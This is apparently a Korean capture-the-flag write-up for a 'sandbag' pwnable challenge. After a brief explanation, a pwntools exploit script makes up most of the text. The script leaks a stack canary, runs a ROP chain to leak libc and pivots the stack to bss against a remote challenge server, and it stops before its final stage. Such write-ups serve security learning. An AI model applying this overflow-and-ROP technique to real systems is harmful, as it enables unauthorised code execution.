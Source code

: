 play_count가 2985984가 되면 bof가 터지는 루틴이 실행되는데, 바이너리를 대충 보니까 그냥 attack이랑 skill이랑 전부다 한번씩 써주는걸 몇번 반복하면 대충 맞을꺼 같길래 해봤더니 딱맞아서 조건 맞추고 rop해서 풀었다.
그리고 bss에 스택피벗해서 빠르게 풀려고했는데 안돼가지고 그냥 쉘코드올려서 풀었다.

```python
from pwn import *

#s = process('./sandbag')
s = remote('222.110.147.52',6975)

e = ELF('./sandbag')
l = ELF('/lib/i386-linux-gnu/libc.so.6')

pr = 0x08048465
pppr = 0x08048f49
pebpr = 0x08048f4b
leaveret = 0x08048598

def attack(index):
	s.sendlineafter('t\n---------------------------','1')
	s.sendlineafter('e\n---------------------------',index)

def skill(index):
	s.sendlineafter('t\n---------------------------','2')
	s.sendlineafter('l\n---------------------------',index)

def rest(index):
	s.sendlineafter('t\n---------------------------','3')
	s.sendlineafter('p\n---------------------------',index)

for i in range(12):
	for i in range(1,5):
		attack(str(i))

	for i in range(1,4):
		skill(str(i))

rest('4')

pause()

skill('4')
payload = 'A' * 0x41
s.sendafter('your attack:',payload)
s.recvuntil('A' * 0x41)
canary = u32("\x00"+s.recv(3))
log.info("CANARY : " + hex(canary))

payload = 'A' * 0x40 + p32(canary) + "B" * 0x4
payload += p32(e.plt['puts']) + p32(pr) + p32(e.got['puts'])
payload += p32(e.plt['read']) + p32(pppr) + p32(0) + p32(e.bss() + 0x100) + p32(0x100)
payload += p32(pebpr) + p32(e.bss() + 0x100 - 0x4) + p32(leaveret)

skill('4')
s.sendafter('your attack:',payload)

s.sendlineafter('t\n---------------------------','6')

s.recvuntil('Good Bye~\n')
libc_base = u32(s.recv(4)) - l.symbols['puts']

log.info("LIBC LEAK : " + hex(libc_base))

binsh = 0x15b9ab
```